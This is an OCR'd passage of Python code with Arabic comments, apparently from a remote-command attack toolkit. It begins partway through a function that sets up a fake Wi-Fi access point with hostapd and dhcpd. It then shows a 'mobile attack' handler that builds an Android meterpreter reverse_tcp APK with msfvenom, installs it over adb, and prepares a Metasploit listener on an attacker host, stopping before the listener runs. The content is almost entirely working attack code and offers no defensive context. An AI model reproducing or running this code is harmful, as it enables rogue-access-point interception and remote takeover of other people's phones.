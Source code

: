 ```python
ssid={fake_ssid}
hw_mode=g
channel=6
wmm_enabled=0
"""
    
    with open("/tmp/fake_ap.conf", "w") as f:
        f.write(hostapd_config)
    
    # تشغيل نقطة الوصول المزيفة
    hostapd_cmd = "hostapd /tmp/fake_ap.conf"
    subprocess.Popen(hostapd_cmd, shell=True)
    
    # تشغيل خادم DHCP
    dhcpd_cmd = "dhcpd wlan1"
    subprocess.Popen(dhcpd_cmd, shell=True)
    
    time.sleep(duration)
    return {"success": True, "fake_ap_created": True}
```

### ✅ **ب. أوامر الهجوم على الأجهزة المحمولة:**

#### 3. **هجوم Metasploit:**
```python
# الأمر المرسل
command = "mobile_attack"
parameters = {
    "attack_type": "metasploit",
    "target_os": "android",
    "payload_type": "reverse_shell",
    "lhost": "192.168.1.100",
    "lport": 4444
}

# التنفيذ الفعلي على الجهاز
def execute_metasploit_attack(parameters):
    import subprocess
    import os
    
    target_os = parameters.get("target_os", "android")
    payload_type = parameters.get("payload_type", "reverse_shell")
    lhost = parameters.get("lhost", "192.168.1.100")
    lport = parameters.get("lport", 4444)
    
    # توليد Payload
    payload_cmd = f"msfvenom -p {target_os}/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} -f apk -o payload.apk"
    subprocess.run(payload_cmd, shell=True)
    
    # تثبيت Payload على الجهاز
    install_cmd = f"adb install payload.apk"
    subprocess.run(install_cmd, shell=True)
    
    # تشغيل Metasploit Listener
    msf_cmd = f"""
    use exploit/multi/handler
    set PAYLOAD {target_os}/meterpreter/reverse_tcp
    set LHOST {lhost}
    set LPORT {lport}
    exploit
    """
    
```